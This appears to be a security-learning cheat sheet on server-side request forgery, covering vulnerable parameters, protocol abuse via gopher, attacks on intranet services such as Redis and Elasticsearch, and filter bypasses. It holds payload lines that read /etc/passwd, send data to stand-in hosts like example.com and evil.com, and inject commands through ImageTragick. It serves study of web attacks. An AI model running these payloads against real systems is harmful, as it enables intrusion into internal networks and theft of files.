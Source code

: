 # SSRF
Server Side Request Forge  
Bypass the firewall and grope through the intranet  

![ssrf](https://github.com/shinmao/Web-Security-Learning/blob/master/SSRF/screenshot/SSRF.png)  
1. Find the vulnerable place > 2. with Protocol > 3. Apply to deeper attack > 4. Bypass

# Find the vulnerable place
**Controllable** URL parameter：url, src, imgURL, share, wap, link  
share the content via URL  
translate the context with online translator  
load the pic with URL  
**How to efficiently dig the vulnerable place?**  
Set up a **requestbin** to find whether request from server?  
Set up a **DNS Logger** to find whether DNS resolution?  
1. XXE(You can directly see in my XXE part)  
```php
<!ENTITY % file SYSTEM "file://url/xxx">
```  
[ref to OOB XXE](https://github.com/shinmao/Web-Security-Learning/tree/master/XXE#exploit)  

2. `file_get_contents($url)`(PHP)  
```php
$image = file_get_contents('http://self-ip');
```
[Day 20 - Stocking](https://www.ripstech.com/php-security-calendar-2017/#day-20)  

3. curl(PHP)  
in fact, from `curl -V` we can see the libcurl support many protocols  

4. Oracle UTL_HTTP  
```php
?id=1'||CTXSYS.DRITHSX.SN(user,substr(utl_http.request('http://example.com?download=/etc/passwd'),1,160))||'
```  

5. ImageTragick  
```php
...
fill 'url(https://example.com/";|ls "-la)'
...
```  
[ImageTragick](https://imagetragick.com/)  
CVE-2016-3718  
POC on Facebook  
We can find the code `<delegate decode="https" command="&quot;curl&quot; -s -k -o &quot;&o&quot; &quot;https:%M&quot;"/>`. Therefore, we can do command injection.  

"6. Header HTTP proxy  
According to CGI, headers in the request would be replaced with env variables  
e.g. Host -> $HTTP_HOST, Proxy -> $HTTP_Proxy  
This is the vul  
```php
GET
...
Proxy: http://evil.com/
```  
hijack the http connection  

In addition to find the potential parameter, we also can set up a server or DNS logger. If we get request from the server side, there might be vul to SSRF somewhere.


# with Protocol  
![](https://farm2.staticflickr.com/1774/43295065584_6cfa758570_b.jpg)  
gopher is an awesome protocol to attack intranet service  
[利用 Gopher 协议拓展攻击面-转载长亭科技](https://blog.chaitin.cn/gopher-attack-surfaces/)  
Jar is a protocol which can be used to create controllable temp file  
FTP or SMB can also be used on bruteforce of password  

# Apply to deeper attack  
Attack service built in intranet  
1. Struts2  
Struts2 is a Java-based MVC framework.  

2. ElasticSearch - port:9200  
CVE-2014-3120  
CVE-2015-1427  
CVE-2015-3337  
```php
http://example.com:9200/_plugin/head/../../../../../../etc/passwd
```  

3. Neo4j, CouchDB, MongoDB  
Visit API -> modify settings -> RCE  

4. Tomcat - port:8005  
SSRF with gopher  

5. Zabbix - port:10050  
SSRF with gopher  

6. Redis - port:6379  
Write shell with gopher -> write SSH key with SAVE -> write crontab with SAVE -> SET to exploit again  

7. FastCGI - port:9000  
```php
gopher://example.com:9000/....
```  

# Bypass  
I would check your schema, host, port  
* Bypass DNS limit:  
A special domain provider> `xip.io`  
DNS rebinding: Traditionally, SSRF filter would get host's IP with DNS resolution from URL. If the IP is legal, request with curl could be successful. Therefore, we can conclude that there are two times of DNS resolutions. We can return legal IP to server at the first time, and return illegal IP for request at the second time! Problem: Sometimes, a server in the public net won't take DNS resolution every times, but store in the cache.  

* Bypass ip limit:  
ip can be decimal, hexidecimal, or Octal  
```php
127.0.0.1
127.0.1
127.1
0.0.0.0
0.0
0
0x7f000001
2130706433
017700000001
```  
This tricks can be used to bypass wordpress protection on SSRF in CVE-2016-4029  

* Bypass url limit:  
```php
// @Adrien
file:///etc/passwd   // Not authorized
file://\/\/etc/passwd    // Work
```  

## Reference
* [New-Era-Of-SSRF-Exploiting-URL](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf)  
* [SSRF testing resources](https://github.com/cujanovic/SSRF-Testing)
